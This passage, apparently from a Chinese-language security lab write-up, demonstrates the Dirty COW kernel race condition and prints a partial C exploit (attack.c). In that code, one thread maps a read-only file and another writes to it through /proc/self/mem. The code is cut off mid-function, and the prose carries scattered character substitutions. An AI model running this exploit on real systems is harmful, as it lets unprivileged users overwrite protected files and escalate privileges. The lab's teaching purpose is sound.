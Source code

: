 ```bash
echo 99999 > /zzz
bash: /zzz: Permission denied
```

![image-20220322143514464](DirtyCOW/image-20220322143514464.png)


> 从上面的实验中咱们能够看到，一个普通权限的用户若是想要对一个只读文件进行写操做的话会操做失败，由于对于普通权限用户，该文件仅仅是可读。然而，由于Dirty-COW在系统中的漏洞，咱们能够找到方法来对该文件进行写入。咱们的目标是把目标模式串”222222”用“`**`”进行替换。bash

### 2 设置内存映射线程

> 从实验的网站下载程序`attack.c`。 该程序拥有三个线程：主线程，写线程，madvise线程（ `madvise()`这个函数能够对映射的内存提出使用建议，从而提升内存。）。主线程的做用是把/zzz文件映射到内存中，而且定位到目标模式`222222`处，而后建立了两个新的线程来利用Dirty-COW竞争条件漏洞。

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1, pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f = open("/zzz", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map = mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "222222");

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void *)file_size);
  pthread_create(&pth2, NULL, writeThread, position);

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content = "******";
  off_t offset = (off_t)arg;

  int f = open("/proc/self/mem", O_RDWR);
  while (1)
  {
```